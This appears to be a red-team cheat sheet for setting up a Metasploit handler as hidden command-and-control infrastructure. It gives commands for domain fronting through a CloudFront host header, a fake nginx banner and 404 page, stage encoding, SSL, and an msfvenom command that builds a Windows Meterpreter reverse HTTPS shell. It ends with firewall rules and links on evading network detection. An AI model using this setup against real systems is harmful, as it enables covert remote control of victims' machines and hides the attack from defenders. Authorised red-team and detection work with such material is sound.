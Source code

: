 # Hardening

Search Tag: #red-team-infrastructure #metasploit

## 01 - Setup

### 1.1 - Shell Handler

#### 1.1.1 - Domain Fronting

```
msf exploit(multi/handler) > set HttpHostHeader afsa0dfna0sdfhq3.cloudfront.net

msf exploit(multi/handler) > set HttpUserAgent <User Agent>

msf exploit(multi/handler) > set HttpServerName nginx/1.21.2

msf exploit(multi/handler) > set HttpUnknownRequestResponse <html><head><title>404 Not Found</title></head><body><p><h1 align="center">404 Not Found</h1></p><br><p><hr></p><p align="center">nginx/1.21.2</p></body></html>
```

#### 1.1.2 - The URI length for the stager (at least 5 bytes)

```
msf exploit(multi/handler) > set StagerURILength 420

msf exploit(multi/handler) > set HandlerSSLCert /path/to/cert.pem

msf exploit(multi/handler) > set SSLVersion TLS1.2

msf exploit(multi/handler) > set EnableStageEncoding true

msf exploit(multi/handler) > set StageEncoder x64/zutto_dekiru
```

`$ msfvenom -p windows/x64/meterpreter/reverse_https StagerURILength=420 HandlerSSLCert=/path/to/cert.pem`

* Optional payload advanced settings

```
msf exploit(multi/handler) > set HttpHostHeader

msf exploit(multi/handler) > set HttpCookie
```

### 1.2 - Firewall Rules

```
# mkdir /etc/iptables
# iptables -I INPUT 1 -p tcp -s 0.0.0.0/0 --dport 5432 -j DROP
# iptables -I INPUT 1 -p tcp -s 127.0.0.1 --dport 5432 -j ACCEPT
# iptables-save > /etc/iptables/rules.v4
```

- A script to autorun after reboot. Run this as root (without `sudo`)

```bash
cat << EOF > /etc/rc.firewall-rules
#!/bin/sh -e
#
# rc.firewall-rules
#
# This script is executed at the end of each multiuser runlevel.
# Make sure that the script will "exit 0" on success or any other
# value on error.
#
# In order to enable or disable this script just change the execution
# bits.
#
# By default this script does nothing.

sudo iptables-restore < /etc/iptables/rules.v4

exit 0
EOF
```

`$ sudo chmod +x /etc/rc.firewall-rules`

---
## References

- [Anti-Forensics Evading Network Detection with Metasploit](https://sapphirex00.medium.com/c2-antiforensics-evading-network-detection-with-metasploit-b400342f20b1)

- [Quickpost: Metasploit User Agent Strings](https://blog.didierstevens.com/2015/03/16/quickpost-metasploit-user-agent-strings/)

- [Catching Meterpreter Callbacks](https://github.com/bats3c/shad0w/wiki/Catching-Meterpreter-Callbacks)

- [Windows Exploit with Word Macro](https://zer0day.tistory.com/303)

- [Conti TTP using Atomic Red Team and Detection Lab C2 infrastructure Hunting](https://michaelkoczwara.medium.com/conti-ttps-using-atomic-red-team-and-detection-lab-c2-infrastructure-hunting-16d159fe0ed8)

- https://labs.jumpsec.com/obfuscating-c2-during-a-red-team-engagement/

- [Chapter 11 Visualizing Metasploit (Use case related about MSGRPC which is the msfrpcd when connecting metasploit remotely)](https://goois.net/chapter-11-visualizing-metasploit-mastering-metasploit-fourth-edition.html)